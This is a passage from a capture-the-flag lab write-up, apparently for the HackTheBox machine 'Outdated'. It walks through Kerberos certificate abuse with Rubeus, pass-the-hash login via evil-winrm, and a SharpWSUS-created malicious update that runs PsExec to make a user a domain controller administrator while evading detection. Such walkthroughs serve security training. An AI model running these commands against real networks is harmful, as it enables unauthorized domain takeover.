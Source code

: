 ```
Rubeus.exe asktgt /user:sflowers /certificate:"<generated certificate>/password:"<generatedd certificate password" /domain:outdated.htb /dc:dc.outdated.htb /getcredentials /show
```

<img src="https://i.imgur.com/0I9qGV3.png"/>

Using pass the hash through `evil-winrm` we can login

<img src="https://i.imgur.com/6xWtvHt.png"/>

Looking at the groups we are in `WSUS Administrators` group

<img src="https://i.imgur.com/PpyrH1C.png"/>

We can try runnning sharpwsus again

<img src="https://i.imgur.com/foJ5dR1.png"/>

Now what wsus (Windows Service Update) exactly is, it's a solution for deploying windows updates for systems in a domain where the hosts don't have to reach out to internet to get the updates instead they can get updates internally

To abuse this we can create a malcious update with using `PsExec` as it uses the signed exe from microsoft, and psexec is from sysinternals it won't be flagged so we can execute anyhing using that

```powershell

cmd.exe /c 'SharpWSUS.exe create /payload:"C:\Users\sflowers\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \" net localgroup administrators sflowers /add\"" /title:"Updauwte"'
```

Here the reason why I used cmd to run execute the sharpwsus is command is that it doesn't run properly with powershell and needs to escapte quotes

<img src="https://i.imgur.com/a5XVRWp.png"/>

Approving the update

```
SharpWSUS.exe approve /updateid:d47b1ac0-b4f7-43ca-b21f-dfbcf0499697 /computername:dc.outdated.htb /groupname:"pleauswse"
```

<img src="https://i.imgur.com/7aOBlXs.png"/>

And then check the status if the update has been installed

<img src="https://i.imgur.com/s8aoAaK.png"/>


Having the update installed which will add sflowers into the local administrator group, we can verify it by checking in which groups slfowers belongs to now


<img src="https://i.imgur.com/lw53NhQ.png"/>
